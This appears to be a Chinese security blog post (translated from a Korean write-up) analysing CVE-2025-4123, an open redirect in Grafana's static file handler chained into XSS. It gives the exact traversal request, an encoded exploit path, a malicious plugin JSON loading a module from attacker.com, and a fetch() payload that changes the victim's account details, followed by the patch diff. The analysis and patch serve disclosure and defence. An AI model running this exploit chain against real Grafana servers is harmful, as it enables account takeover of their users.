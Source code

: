 #  CVE-2025-4123：Grafana 中通过开放重定向引发的 XSS  
 Ots安全   2025-06-15 06:08  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
网址  
  
https://nightbloodz.github.io/grafana-CVE-2025-4123/  
  
目标  
- Grafana 11.6.x < 11.6.2  
  
- Grafana 11.5.x < 11.5.5  
  
- Grafana 11.4.x < 11.4.5  
  
- Grafana 11.3.x < 11.3.7  
  
- Grafana 11.2.x < 11.2.10  
  
- Grafana < 10.4.19  
  
解释  
  
在Grafana中，处理静态资源的功能**staticHandler**  
会根据客户端请求，响应位于特定路径的文件。此时，**opt.FileSystem.Open(file)**  
如果是文件，则响应Content，如果是目录而非文件，则执行Redirect，响应index文件。  
  
在这个过程中，客户端的请求路径没有得到正确的验证，从而导致了Open Redirect漏洞，而当与XSS结合时，这可能导致帐户接管。  
  
```
funcstaticHandler(ctx *web.Context, log log.Logger, opt StaticOptions)bool {// URL의 path 파싱  file := ctx.Req.URL.Path  ...// path 파일 핸들 오픈  f, err := opt.FileSystem.Open(file) if err != nil {    returnfalse  }  ...// 파일 정보 확인 (디렉토리, 파일, 심볼릭 링크 등)  fi, err := f.Stat()if err != nil {    returntrue  }  ...// 디렉토리일 경우if fi.IsDir() {    if !strings.HasSuffix(ctx.Req.URL.Path, "/") {      path := fmt.Sprintf("%s/", ctx.Req.URL.Path)      if !strings.HasPrefix(path, "/") {        path = fmt.Sprintf("/%s", path)      } else {        rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)        path = rePrefix.ReplaceAllString(path, "/")      }      // Open Redirect 발생      http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)      returntrue    }
```  
  
  
打开重定向  
  
**http.Redirect()为了达到打开重定向发生的逻辑，opt.FileSystem.Open(file)文件变量中包含的路径必须存在于文件系统中，并且fi.IsDir()必须能够进入条件语句。**  
  
因此，我们需要对请求路径进行操作，以便它可以在两个函数中使用，这里重要的http.Redirect()是URL-encode 。**opt.FileSystem.Open(file)****?****%3f**  
  
```
[요청]GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1Host: 192.168.100.2:3000[응답]HTTP/1.1302 FoundLocation: /\attacker.com/?/../../../../../../
```  
  
- 当 opt.FileSystem.Open(file) 解释上述路径时，它会执行四个 ../ 来指向“”。因此，代码会为路径 /staticfiles/etc/etc/ 打开一个文件句柄。  
  
- fi.IsDir() 返回 True 并进入 if 语句。  
  
- http.Redirect(path) 处理 Location 的字符串%3f，根据将其分离为 Path 和 Raw Query，然后处理该字符串，因此/\attacker.com/%3f/../../../../它将其在 Location 标头中发送给用户。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nQ15xuKsefQQA24nyN70gRbGkC5WDib7WpqVr6ica8QcpgBGLSicXmsVzA/640?wx_fmt=png&from=appmsg "")  
  
跨站脚本  
  
Grafana 在前端有一个路径用来检查插件应用的内容/a/{plugin-app-name}/explore。当浏览器向该路径发出请求时，Grafana 的前端 JS**{plugin-app-name}**  
会提取并转换**/api/plugins/{pugin-app-name}/settings**  
为。**fetch**  
  
之后，它执行“module”字段中定义的 JS。  
  
```
{    "name": "plugin-app",    "type": "app",    "id": "plugin-app",    "enabled": true,    "pinned": true,    "autoEnabled": true,    "module": "/modules/..../plugin-app.js", //js file to load    "baseUrl": "public/plugins/grafana-lokiexplore-app",    "info": {        "author": {            "name": "Grafana"            ...        }    }    ...
```  
  
  
因此，执行Open Redirect的路径进行URL编码和配置如下，然后配置恶意模块进行响应。  
  
```
/a/ ..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore
```  
  
  
  
```
{    "name": "ExploitPluginReq",    "type": "app",    "id": "grafana-lokiexplore-app",    "enabled": true,    "pinned": true,    "autoEnabled": true,    "module": "http://attacker.com/file?js=file",    "baseUrl": "public/plugins/grafana-lokiexplore-app",    "info": {        "author": {...}    }    ...}
```  
  
> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js  
  
  
当从模块**http://attacker.com/file?js=file**  
调用时，它会以更改密码的 js 进行响应并执行帐户接管。  
  
```
fetch("/api/user", {  method: "PUT",  headers: {    "x-grafana-device-id": "3b3353978aa55a04cd5b130d126adfee",    "User-Agent":      "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36",    Accept: "application/json, text/plain, */*",    "Content-Type": "application/json",    "x-grafana-org-id": "1",    "Accept-Encoding": "gzip, deflate",    "Accept-Language": "en-US,en;q=0.9",    // Note: 'Cookie' headers are restricted by browsers in JavaScript fetch  },  body: JSON.stringify({    name: "pwned",    email: "pwned@pwned.com",    login: "pwned",  }),  credentials: "include", //if you want cookies like grafana_session to be sent})  .then((response) => response.json())  .then((data) =>console.log(data))  .catch((error) =>console.error("Error:", error));alert("account pwned");
```  
  
  
  
```
https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nNHp8BKahicpq3MueDBVdeBv7ib0fPjUZLBneoBXvH9NnhVTy9a1a4HhQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞补丁  
  
path.Clean通过在执行重定向之前删除**../**  
、  
./  
和和来执行**중복 /**  
与 opt.FileSystem.Open 相同的规范化，从而避免不一致。  
  
```
@@ -159,16 +159,17 @@ func staticHandler(ctx *web.Context, log log.Logger, opt StaticOptions) bool {        if fi.IsDir() {                // Redirect if missing trailing slash.                if !strings.HasSuffix(ctx.Req.URL.Path, "/") {- path := fmt.Sprintf("%s/", ctx.Req.URL.Path)- if !strings.HasPrefix(path, "/") {+ redirectPath := path.Clean(ctx.Req.URL.Path)+ redirectPath = fmt.Sprintf("%s/", redirectPath)+ if !strings.HasPrefix(redirectPath, "/") {                                // Disambiguate that it's a path relative to this server- path = fmt.Sprintf("/%s", path)+ redirectPath = fmt.Sprintf("/%s", redirectPath)                        } else {                                // A string starting with // or /\ is interpreted by browsers as a URL, and not a server relative path                                rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)- path = rePrefix.ReplaceAllString(path, "/")+ redirectPath = rePrefix.ReplaceAllString(redirectPath, "/")                        }- http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)+ http.Redirect(ctx.Resp, ctx.Req, redirectPath, http.StatusFound)                        returntrue                }
```  
  
  
  
```
https://github.com/grafana/grafana/commit/c7a690348df761d41b659224cbc50a46a0c0e4cc
```  
  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
